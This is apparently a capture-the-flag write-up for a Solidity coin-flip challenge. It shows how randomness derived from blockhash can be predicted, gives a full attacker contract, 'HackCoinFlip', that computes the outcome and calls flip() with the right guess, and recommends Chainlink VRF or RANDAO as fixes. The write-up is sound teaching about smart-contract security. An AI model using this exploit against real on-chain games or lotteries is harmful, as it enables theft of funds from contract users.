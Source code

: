 This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

## We need to pass the guess to the flip function accurately for 10 times

```solidity
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
```

we can see that `block.number` is being used to generate a random number.
This is dangerous as anyone with access to block can exploit this situation by finding `block.number`.

The following code takes advantage of this fact and makes a guess based on the `factor` and `block.number`.

```solidity
contract HackCoinFlip {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinflip ;
    constructor(address _address) {
        coinflip = CoinFlip(_address);
    }

    function _flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        coinflip.flip(side);

    }
}
```

It is advised to avoid using such variables for randomness.
Instead,[Chainlink VRF](https://docs.chain.link/docs/get-a-random-number) provide a randomness function that can be used to access random values in the contract.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/).
